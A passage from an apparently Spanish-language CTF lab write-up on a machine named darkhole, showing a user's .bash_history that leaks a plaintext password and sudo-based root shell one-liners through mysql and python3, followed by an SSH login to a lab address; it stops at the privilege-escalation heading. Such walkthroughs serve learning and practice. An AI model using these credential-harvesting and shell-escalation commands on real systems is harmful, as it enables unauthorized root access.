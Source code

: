 Listado el archivo `.bash_history` del usuario losy, encontramos logs de los eventos del usuario, donde encontramos la password del usuario y además nos damos cuenta que tenemos permiso de root sobre el binario /bin/python3.



```bash
losy@darkhole:~$ cat .bash_history
mysql -e '\! /bin/bash'
mysql -u root -p -e '\! /bin/bash'
P0assw0rd losy:gang
clear
sudo -l
sudo python3 -c 'import os; os.system("/bin/sh")'
sudo python -c 'import os; os.system("/bin/sh")'
sudo /usr/bint/python3 -c 'import os; os.system("/bin/sh")'
sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")
```

Probamos conectarnos por SSH con dicha password.

```bash
❯ ssh losy@10.11.12.12
losy@10.11.12.12's password:
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 08 Feb 2025 04:58:17 PM UTC

  System load:  0.0                Processes:              235
  Usage of /:   48.4% of 12.73GB   Users logged in:        1
  Memory usage: 75%                IPv4 address for ens33: 10.11.12.12
  Swap usage:   3%


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Sep  3 04:09:48 2021 from 192.168.135.128
losy@darkhole:~$
```

## Escalación de privilegios

---
